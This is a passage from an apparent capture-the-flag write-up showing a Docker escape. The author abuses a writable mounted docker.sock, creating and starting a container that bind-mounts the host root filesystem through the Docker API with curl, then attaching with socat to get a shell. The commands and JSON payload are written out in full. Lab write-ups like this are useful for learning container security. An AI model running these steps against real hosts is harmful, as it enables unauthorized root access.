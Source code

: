 ```
    ]                                                                                                                                           
  }                                                                                                                                             
]                       
```

We can see some interesting things from the above extract.
There is 1 container running, which is mounting the host docker unix socket in /var/run/docker.sock with RW perms and mounts as well a volume to /var/lib/influxdb.
It is exposing port 8086 from the container on port 8086 and port 22 from the container to port 2222.
The command executed at the start of the container is the following:

```
    "Command": "/bin/bash -c 'chmod a+rw /var/run/docker.sock && service ssh start & /bin/su uzJk******** -c '/initializeandquery.sh & /entrypoint.sh influxd''",                                                                                                                               
```

Following the technique described in the mentioned blog post we can create a new container, I tried creating first a container based on the sweettooth image, but the output I got when attaching to the socket was impossible to follow, I decided then to create a new container definition based on the influxdb image, please note that I mounted the root filesystem of the host in the /host directory:

```
uzJk********@c637b44a6c1e:~$  echo -e '{"Image":"influxdb:1.3.0","Cmd":["/bin/sh"],"DetachKeys":"Ctrl-p,Ctrl-q","OpenStdin":true,"Mounts":[{"Type":"volume","Name":"8209a2ec9fe0a1ff40e6148df792def738792c8dc8b1f539e85f2fa580826584","Source":"","Destination":"/var/lib/influxdb","Target":"/var/lib/influxdb","Driver":"local","Mode":"","RW":true,"Propagation":""},{"Type":"bind","Source":"/var/run/docker.sock","Target":"/var/run/docker.sock","Mode":"","RW":true,"Propagation":"rprivate"},{"Type":"bind","Source":"/","Target":"/host"}]}' > container.json
```

After creating the new container definition json file, I used the docker api to create the container:

```
uzJk********@c637b44a6c1e:~$ curl -XPOST -H "Content-Type: application/json" -d "$(cat container.json)" http://localhost:8080/containers/create{"Id":"cd7b05f44df3c516f533f448d17b0c14e69e24efe0053c905612f24009a357d6","Warnings":null}
```

Then we start the container:

```
uzJk********@33829c3167b5:~$ curl -XPOST  http://localhost:8080/containers/cd7b/start
```

Then we can attach to the container shell using socat using the same technique described in the blog post:

```
uzJk********@c637b44a6c1e:~$ socat - UNIX-CONNECT:/var/run/docker.sock
POST /containers/cd7b/attach?stream=1&stdin=1&stdout=1&stderr=1 HTTP/1.1
Host:
Connection: Upgrade
Upgrade: tcp

HTTP/1.1 101 UPGRADED
Content-Type: application/vnd.docker.raw-stream
Connection: Upgrade
Upgrade: tcp

ls
hbin
boot
dev
entrypoint.sh
```